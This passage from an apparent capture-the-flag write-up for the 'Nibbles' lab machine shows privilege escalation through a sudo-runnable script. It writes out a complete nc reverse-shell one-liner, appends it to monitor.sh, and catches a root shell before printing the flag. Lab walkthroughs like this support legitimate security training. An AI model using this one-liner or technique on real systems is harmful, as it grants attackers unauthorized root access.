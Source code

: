 ```

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh


<SNIP>


### SCAN COMPLETE ####################################

```

It looks like we can use sudo based on the script results.

If we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user. Let us edit the `monitor.sh` file to append a reverse shell one-liner.

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh
```

The contents appended to the end.&#x20;

Execute the script with sudo, using its full path:

```shell-session
 nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
```

Catch the root shell on our waiting `nc` listener:

```shell-session
-[Wed Feb 14-11:14:19]-[table@parrot]-
-[~]$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.75] 41634
# id
uid=0(root) gid=0(root) groups=0(root)

```

Grab root flag:

```
root@Nibbles:/# cd root
cd root
root@Nibbles:~# ls
ls
root.txt
root@Nibbles:~# cat root.txt
cat root.txt
c4e3ffb07d835f8e9e0b892edade5730
```

